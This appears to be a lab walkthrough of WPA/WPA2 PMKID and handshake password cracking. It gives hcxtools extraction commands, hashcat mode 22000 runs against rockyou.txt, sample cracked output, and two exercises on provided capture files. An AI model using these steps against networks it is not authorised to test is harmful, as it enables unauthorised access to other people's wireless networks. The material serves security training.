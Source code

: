 ### Steps:
1. **Extract the PMKID**:
   ```bash
   sudo apt install hcxtools
   hcxpcaptool -z pmkidhash output.pcap
   ```
2. **Run Hashcat**:
   ```bash
   hashcat -a 0 -m 22000 pmkidhash /path/to/wordlist.txt
   ```

Example output:
```plaintext
Session..........: hashcat
Status...........: Cracked
Hash.Name........: WPA-PBKDF2-PMKID+EAPOL
Recovered........: 1/1 (100.00%) Digests
```

---

## Tools

- **Hashcat**: Offline password cracking tool.
- **hcxtools**: Tools for extracting PMKID and EAPOL packets.

### Installation:
```bash
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

---

### Notes

- Always ensure you have permission for assessments.
- The default wordlist used in these examples is `rockyou.txt`.

---

By using Hashcat effectively, we can identify weak WPA/WPA2 passwords and improve wireless security.\

EJercicio
   Perform MIC cracking using the attached .cap file.
      ```hcxpcapngtool -o output.hc22000 archivo.cap```
      ```hashcat -a 0 -m 22000 output.hc22000 /usr/share/wordlists/rockyou.txt```

Ejercicio
   Extract the PMKID hash from the attached .cap file and crack it.
      ```hcxpcapngtool -o pmkid.hc22000  Desktop/cracking_pmkid_question2.cap```
      ```cat Desktop/pmkid.hc22000```
      ```hashcat -a 0 -m 22000 Desktop/pmkid.hc22000 /usr/share/wordlists/rockyou.txt```
